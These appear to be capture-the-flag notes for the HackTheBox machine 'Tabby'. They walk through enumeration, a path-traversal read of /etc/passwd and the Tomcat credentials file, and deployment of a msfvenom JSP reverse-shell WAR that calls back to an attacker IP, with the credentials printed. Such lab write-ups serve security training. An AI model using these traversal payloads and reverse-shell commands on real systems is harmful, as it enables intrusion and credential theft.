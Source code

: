 # tabby

```sh
## kali

sudo su -
cd projects
mkdir tabby
cd tabby
mkdir share
mkdir foothold
mkdir exfil
mkdir privesc

nv /etc/local # add: 10.10.10.194 tabby

sup tabby # nmap scans.

so tabby # scan summary and setting vars.

# 22 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
ssh tabby # denied, publickey

# 80 Apache httpd 2.4.41 ((Ubuntu))
  # browser ->
    # nothing on the quick

# 8080 Apache Tomcat
  # browser -> open all links
    # /docs -> Apache Tomcat 9 (Version 9.0.31, Feb 24 2020)
    # /examples -> are installed
    # /manager & /host-manager -> ask for password (401 gives info)
    # users are defined in /etc/tomcat9/tomcat-users.xml

dirb http://tabby/ -o dirb80.log
dirb http://tabby:8080/ -o dirb8080.log

tail -F *.log | grep --line-buffered ^==
```

```sh
## vmhost

# local port forwarding so we can browse the sites from outside kali:
ssh -N kali -L 0.0.0.0:80:tabby:80
ssh -N kali -L 0.0.0.0:8080:tabby:8080

# port 80
# wappalyzer: apache 2.4.41, ubuntu

# port 8080
# wappalyzer: apache 2.4.41, ubuntu

# no new info :/
```

```sh
## kali

# port 22
searchsploit openssh 8 # nothing useful.
# https://www.cybersecurity-help.cz/vdb/SB2020052708

# port 80
searchsploit apache 2 # no public exploit for 2.4.41.

# port 8080
searchsploit tomcat
# https://tomcat.apache.org/security-9.html
# nothing useful.
```

---

I mean the box is called `tabby` so it's probably a Tomcat exploit.

```sh
grep ^== dirb* # nothing interesting.
```
* port 8080 via browser, still nothing
* port 80 via browser:
* some links point to megahosting.htb
* try them with the server.
  * `news.php` with `file` parameter!
* let's try passing some files:
  * first the one from the page:
    * `/news.php?file=statement`
      * nice apology
    * `/news.php?file=index.html`
      * empty page
* let's switch to curl

```sh
## kali
curl -s tabby > index80.html
grep .htb index80.html # a mail address and the aforementioned news.php

curl tabby/news.php?file=statement # yep, it's still the statement.
curl tabby/news.php?file=index.html # empty.
curl tabby/news.php?file=index.php # empty.
curl tabby/news.php?file=../index.html # empty.
curl tabby/news.php?file=../index.php # jackpot! it's the root index file.
curl tabby/news.php?file=../../index.php # empty.

# let's try breaking out and fetching a file that was mentioned on tabby:8080
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/index.html # it works!

# when we entered a wrong password, tabby:8080/manager/html mentioned conf/tomcat-users.xml
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcate-users.xml # empty :(

# whoops, one an errant e
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/conf/tomcat-users.xml # nope.

# let's google the location for tomcat-users.xml

# $CATALINA_BASE/conf/tomcat-users.xml
# $CATALINA_BASE is /var/lib/tomcat9
# should work, but does not.

# remove ../ until we find the last that works. 4 are enough to get to the root dir.
# try something else:
cd exfil
curl tabby/news.php?file=../../../../usr/share/doc/tomcat9-common/RUNNING.txt.gz --output RUNNING.txt.gz
gunzip *.gz

# read it.
# try another path:
curl tabby/news.php?file=../../../../etc/hosts # works.

# let's look for the ubuntu tomcat package:
# https://packages.ubuntu.com/search?keywords=tomcat9
# I don't know the exact Ubuntu version, I'm assuming they are all similar:
# https://packages.ubuntu.com/focal/all/tomcat9/filelist
curl tabby/news.php?file=../../../../../etc/cron.daily/tomcat9 # works. good start.
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml # YES!

# let's download it:
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml -o tomcat-users.xml
grep password *.xml

# let's try those credentials:
# tabby:8080/manager/html # nope
  # can we find those creds too?
# tabby:8080/manager/host-manager # yes!
  # now we have access to the Tomcat Virtual Host Manager
```

Wait a minute!

```sh
## kali
# totally forgot, there's ssh running!
curl tabby/news.php?file=../../../../../etc/ssh/sshd_config > sshd_config
curl tabby/news.php?file=../../../../../etc/ssh/ssh_config > ssh_config
# private keys can't be fetched, oh well.
```

Maybe the webserver on port 80

```sh
curl tabby/news.php?file=../../../../var/www/html/index.php
# maybe we can get news.php
curl tabby/news.php?file=../../../../var/www/html/news.php > news.php # yes!
curl tabby/news.php?file=../../../../var/www/html/index.php > index.php # might as well.
curl tabby/news.php?file=../../../../lib/systemd/system/tomcat9.service > tomcat9.service # should give us the paths.

curl http://tabby/news.php?file=../../../../etc/passwd > passwd # at least we will get the usernames.
egrep -v "bin/nologin|bin/false" passwd
# we found a new user: ash
# can't manage to extract any info though.
```
---

Alright, after a couple of hours I've looked up a hint:
The idea is to upload a shell via the Tomcat manager.
(I did not know you could upload things, so I would have
not figured that out anytime soon.)

* http://tabby:8080/host-manager/html
  * click server status
  * click complete server status
    * (http://tabby:8080/manager/status/all)
    * take a look at the applications
      * let's add our own
      * as soon as we call it our payload will be executed
      * let's create a TCP reverse shell

* Tomcat uses Java JSPs. (JavaServerPages).
* WAR files: Web Applications aRchives (contains a JAR)
* JAR files: Java ARchives

The URL for uploading WAR files is http://tabby:8080/manager/text/deploy

```sh
msfvenom --list payloads > msf_payloads # long list.
grep java msf_payloads # java/jsp_shell_reverse_tcp looks good.
msfvenom -l formats # war is what we need (wait what).

# let's open a listener:
rlwrap nc -vnlp 42424 # this will be our shell.

# create the payload:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.69 LPORT=42424 -f war -o shell.war

# war files are packed folders in disguise:
mkdir shell && cd shell
jar -xvf ../shell.war
# take a look at it. the jsp file is interesting
# (around line 50)
cd ..

# you can upload files with curl. same credentials we found before.
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://tabby:8080/manager/text/deploy?path=/shell'
# -u user credentials
# -T upload file

# our new webapp should be visible in the manager now!

# visit the new app in the browser:
# http://tabby:8080/shell
# or curl it, don't forget the following /:
curl -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby:8080/shell/'

```

```sh
# in the shell:
# this shell does not provide any feedback. let's upgrade it:
python3 -c 'import pty;pty.spawn("/bin/bash")'
id # tomcat, tomcat, tomcat
uname -a # Linux tabby 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64 [...]
env
pwd # /var/lib/tomcat9/webapps
ls -alp # finally we can properly browse around!
ls -alp webapps

# let's exfiltrate some data we have generated ourselves:
cd webapps/shell
find / > filesystem 2>&1
curl tabby:8080/shell/filesystem > filesystem
```
